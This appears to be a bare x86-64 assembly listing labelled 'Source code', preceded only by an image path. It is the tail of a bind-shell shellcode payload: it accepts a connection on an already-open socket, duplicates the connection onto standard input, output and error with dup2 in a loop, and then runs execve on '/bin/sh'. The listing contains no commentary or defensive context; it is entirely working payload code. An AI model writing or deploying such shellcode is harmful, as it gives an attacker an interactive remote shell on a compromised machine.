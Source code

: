 ```nasm
	xor rcx, rcx
	mov cl, 0x10
	push rcx

	mov rdx, rsp

	push r8
	pop rdi

	push 0x2b
	pop rax

	syscall

	pop rcx

	xor r9, r9
	mov r9, rax

	mov rdi, r9

	xor rsi, rsi

	push 0x3
	pop rsi

doop:
	dec rsi

	push 0x21
	pop rax

	syscall

	jne doop

	xor rdi, rdi
	push rdi
	push rdi
	pop rsi
	pop rdx

	mov rdi, 0x68732f6e69622f2f

	shr rdi, 0x8
	push rdi
	push rsp
	pop rdi

	push 0x3b
	pop rax

	syscall
```
